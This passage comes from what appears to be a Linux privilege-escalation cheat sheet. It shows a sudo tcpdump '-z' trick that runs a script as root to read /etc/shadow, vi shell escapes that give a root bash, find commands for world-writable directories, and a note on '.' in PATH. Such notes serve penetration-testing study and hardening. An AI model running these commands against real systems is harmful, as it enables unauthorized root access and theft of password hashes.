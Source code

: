 ```text
echo $'id\ncat /etc/shadow' > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

`vi/vim`

Can be abused like this:

```text
sudo vi
:shell

:set shell=/bin/bash:shell    
:!bash
```

[How I got root with sudo/](https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/)

### World writable scripts invoked as root

If you find a script that is owned by root but is writable by anyone you can add your own malicious code in that script that will escalate your privileges when the script is run as root. It might be part of a cronjob, or otherwise automatized, or it might be run by hand by a sysadmin. You can also check scripts that are called by these scripts.

```bash
#World writable files directories
find / -writable -type d 2>/dev/null
find / -perm -222 -type d 2>/dev/null
find / -perm -o w -type d 2>/dev/null

# World executable folder
find / -perm -o x -type d 2>/dev/null

# World writable and executable folders
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
```

### Bad path configuration

Putting `.` in the path  
If you put a dot in your path you won't have to write `./binary` to be able to execute it. You will be able to execute any script or binary that is in the current directory.

Why do people/sysadmins do this? Because they are lazy and won't want to write `./.`

This explains it  
[https://hackmag.com/security/reach-the-root/](https://hackmag.com/security/reach-the-root/)  
And here  
[http://www.dankalia.com/tutor/01005/0100501004.htm](http://www.dankalia.com/tutor/01005/0100501004.htm)

### Cronjob
